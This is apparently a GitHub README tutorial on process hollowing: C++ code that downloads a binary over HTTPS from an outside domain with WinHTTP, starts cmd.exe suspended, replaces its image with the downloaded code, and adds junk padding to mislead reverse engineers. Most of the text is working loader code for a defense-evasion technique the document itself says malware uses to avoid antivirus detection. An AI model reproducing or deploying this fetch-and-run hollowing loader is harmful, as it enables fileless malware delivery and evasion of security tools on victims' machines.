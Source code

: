 ### Introduction
> Process hollowing is a technique to run executable, binary code, while disguised as a different process. It is mainly used by malware to replace the code of a running, trusted program with its own, making it very difficult to detect. Although its main use is to evade detection by anti-viruses, process hollowing also has a legitimate use.
>
> More information about process hollowing can be found at [https://attack.mitre.org/techniques/T1055/012/](https://attack.mitre.org/techniques/T1055/012/)

We can use process hollowing to run a process without having an executable file stored on the disk, which is very useful in preventing reverse-engineering of our code. If there is no executable file stored on the disk, there is no executable file that can be opened in IDA. There's probably some other method to decompile code running through process hollowing, but this still greatly increases the difficulty in reverse-engineering.

### Downloading Binary Data
We will use WinHTTP to download a file from the internet into a temporary buffer.

First, we open an `HINTERNET` session object and initialize its connection to the domain our binaries are stored on.

            HINTERNET hSession = WinHttpOpen(USER_AGENT, WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
            HINTERNET hConnection = WinHttpConnect(hSession, DOWNLOAD_DOMAIN, (DOWNLOAD_USE_HTTPS ? INTERNET_DEFAULT_HTTPS_PORT : INTERNET_DEFAULT_HTTP_PORT), 0);

Here, `USER_AGENT` is defined as a default User Agent (`Mozilla/5.0 (X11;...`) and `DOWNLOAD_DOMAIN` is the domain where our binaries are hosted (`strayfade.com` in this case)
`DOWNLOAD_USE_HTTPS` is defined as `true` so that we connect on port 443 which is used for HTTPS.

            HINTERNET hRequest = WinHttpOpenRequest(hConnection, L"GET", DOWNLOAD_PATH, NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);

 - `L"GET"` tells WinHTTP to create a `GET` request
 - `DOWNLOAD_PATH` is the path of the binaries on the server (`/cdn/file...`)
 - `WINHTTP_DEFAULT_ACCEPT_TYPES` tells WinHTTP to accept binary data
 - `WINHTTP_FLAG_SECURE` tells WinHTTP that this data is served over HTTPS.

            WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0))
            WinHttpReceiveResponse(hRequest, NULL)

The above code sends the request and reads the response into the `hRequest` variable. Below, we get the size of the transferred data to allocate memory for it.

            DWORD contentLength = 0;
	        DWORD contentLengthBufferSize = 128;
            WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CONTENT_LENGTH | WINHTTP_QUERY_FLAG_NUMBER, WINHTTP_HEADER_NAME_BY_INDEX, &contentLength, &contentLengthBufferSize, WINHTTP_NO_HEADER_INDEX)
	        unsigned char* buffer = new unsigned char[contentLength];

Next, we have to read the response into the array
            
            DWORD bytesRead = 0;
            WinHttpReadData(hRequest, (LPVOID)buffer, contentLength, &bytesRead);

### Creating a process
> I learned about most of this from the [adamhlt/Process-Hollowing](https://github.com/adamhlt/Process-Hollowing) repository on GitHub, so credit them for some bits of this code.

First, we have to create a dummy process to be "hollowed":

            CreateProcessA((LPSTR)HOST_PROCESS, nullptr, nullptr, nullptr, TRUE, CREATE_SUSPENDED, nullptr, nullptr, &SI, &PI);

What's important here is the `HOST_PROCESS` variable and `CREATE_SUSPENDED` flag. `HOST_PROCESS` is a path (string) to the executable to hollow. For our use, this is set to the absolute path of `cmd.exe`. The `CREATE_SUSPENDED` flag tells `CreateProcessA` to suspend the process as soon as it is created, letting us replace its PE image before it starts.

We also need to check whether or not the running executable is compatible (has the same architecture as our replacement code). To do this, I'm using functions from the `Process-Hollowing` repository:

            BOOL bTarget32;
		    IsWow64Process(PI.hProcess, &bTarget32);
            ProcessAddressInformation ProcessAddressInformation = { nullptr, nullptr };
            ProcessAddressInformation = GetProcessAddressInformation64(&PI); // Get base address of process to hollow
            const BOOL bSource32 = IsPE32(hFileContent); // hFileContent is a cast of buffer to type LPVOID

            // Subsystem check
            DWORD dwSourceSubsystem = GetSubsytem64(hFileContent);
            DWORD dwTargetSubsystem = GetSubsystemEx64(PI.hProcess, ProcessAddressInformation.lpProcessImageBaseAddress);
            if (dwSourceSubsystem != dwTargetSubsystem) return;

Finally, we do the actual process hollowing

		    BOOL bHasReloc = HasRelocation64(hFileContent);
            if (!bHasReloc) { RunPE64(&PI, hFileContent); }
            else { RunPEReloc64(&PI, hFileContent); }

### More Important Things
One neat thing we can do to confuse reverse-engineerers is to pad our executable with junk code, since the whole program only ends up at about 16kb. There aren't many programs that small, so we need to add junk code to make our process hollowing look like it's just running the original program. I added 2mb of filler to the program, since the binaries we were downloading were around that size.

            CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Pad, 0, 0, 0); // This runs in a thread after the process hollowing has finished.

### References 
 - [https://attack.mitre.org/techniques/T1055/012/](https://attack.mitre.org/techniques/T1055/012/)
 - [https://github.com/adamhlt/Process-Hollowing](https://github.com/adamhlt/Process-Hollowing)
 - [https://github.com/kernelm0de/RunPE-ProcessHollowing](https://github.com/kernelm0de/RunPE-ProcessHollowing)